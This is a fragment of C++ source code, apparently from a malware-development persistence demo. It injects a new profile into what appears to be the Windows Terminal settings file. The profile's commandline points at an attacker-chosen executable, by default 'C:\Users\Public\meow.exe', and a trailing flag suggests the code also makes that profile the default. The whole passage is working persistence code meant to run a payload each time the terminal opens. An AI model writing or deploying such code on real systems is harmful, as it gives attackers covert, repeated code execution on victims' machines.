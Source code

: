 ```cpp
  // generate GUID and build snippet
  char guid_b[64];
  gen_guid_v4_string(guid_b);
 
  const char *exeIn = (argc >= 2) ? argv[1] : "C:\\Users\\Public\\meow.exe";
  char escaped[1024]; // ensure backslashes are doubled for JSON
  {
    size_t j = 0;
    for (size_t i = 0; exeIn[i] && j + 2 < sizeof(escaped); ++i) {
      char c = exeIn[i];
      if (c == '\\') { escaped[j++] = '\\'; escaped[j++] = '\\'; }
      else escaped[j++] = c;
    }
    escaped[j] = 0;
  }
 
  char snippet_with_comma[1024];
  char snippet_no_comma[1024];
 
  _snprintf(snippet_with_comma, sizeof(snippet_with_comma),
    ",\n      {\n"
    "        \"guid\": \"%s\",\n"
    "        \"name\": \"meow\",\n"
    "        \"commandline\": \"%s\",\n"
    "        \"hidden\": false\n"
    "      }",
    guid_b, escaped);
 
  _snprintf(snippet_no_comma, sizeof(snippet_no_comma),
    "\n      {\n"
    "        \"guid\": \"%s\",\n"
    "        \"name\": \"meow\",\n"
    "        \"commandline\": \"%s\",\n"
    "        \"hidden\": false\n"
    "      }",
    guid_b, escaped);
 
  // find profiles.list and inject
  size_t lb=0, rb=0;
  if (!find_profiles_list(json, blen, &lb, &rb)) {
    fprintf(stderr, "[-] could not locate profiles.list\n");
    free(json);
    return 1;
  }
 
  int empty = list_is_empty(json, lb, rb);
  const char *ins = empty ? snippet_no_comma : snippet_with_comma;
  size_t ins_len = strlen(ins);
 
  size_t new_len = blen + ins_len;
  char *out = (char*)malloc(new_len + 1);
  if (!out) { free(json); return 1; }
 
  memcpy(out, json, rb);
  memcpy(out + rb, ins, ins_len);
  memcpy(out + rb + ins_len, json + rb, blen - rb);
  out[new_len] = 0;
 
  free(json);
  json = out;
  blen = new_len;
 
#if CHANGE_DEFAULT
```